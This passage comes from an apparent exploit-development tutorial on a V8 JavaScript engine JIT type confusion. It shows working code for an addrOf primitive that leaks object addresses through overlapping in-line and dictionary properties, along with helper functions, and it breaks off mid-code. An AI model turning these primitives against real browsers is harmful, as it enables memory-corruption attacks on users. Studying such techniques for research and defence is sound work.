 ```js
function addrOf() {
    eval(`
    function vuln(obj) {
      obj.inline;
      this.Object.create(obj);
      return obj.p${p1}.x;
    }
  `);

    let obj = {z: 1234};
    let pValues = [];
    pValues[p1] = {x: 13.37};
    pValues[p2] = {y: obj};

    for (let i = 0; i < 10000; i++) {
        let res = vuln(makeObj(pValues));
        if (res != 13.37) {
            %DebugPrint(obj);
            return res;
        }
    }
}
```

As you can see, our JIT loop will call `makeObj` to create an object with our `p1` and `p2` properties, and then pass that to our `vuln` function to trigger the type confusion. The `if` statement is checking to see if the results returned by the `vuln` function don't equal 13.37. If it doesn't, it means we successfully triggered our type confusion and have read the address pointer of `obj`.

Since we are testing this, I have also added a `%DebugPrint` statement to print out the address of `obj`. This allows us to validate that the data returned is, in fact, our address.

Our exploit script will now look like so. Note, that in this test case, I simply added a call to `addrOf` which will exploit our overlapped properties to leak the object address that is hardcoded within the function.

Also, take note that I have modified our `findOverlappingProperties` function to include a `pValues` array for our negative numbers. This was done to support the modification we made to our `makeObj` function.

```js
// Function that creates an object with one in-line and 32 out-of-line properties
function makeObj(pValues) {
    let obj = {inline: 1234};
    for (let i = 0; i < 32; i++) {
        Object.defineProperty(obj, 'p' + i, {
            writable: true,
            value: pValues[i]
        });
    }
    return obj;
}
// Function that finds a pair of properties where p1 is stored at the same offset
// in the FixedArray as p2 in the NameDictionary
let p1, p2;

function findOverlappingProperties() {
    // Create an array of all 32 property names such as p1..p32
    let pNames = [];
    for (let i = 0; i < 32; i++) {
        pNames[i] = 'p' + i;
    }

    // Create eval of our vuln function that will generate code during runtime
    eval(`
```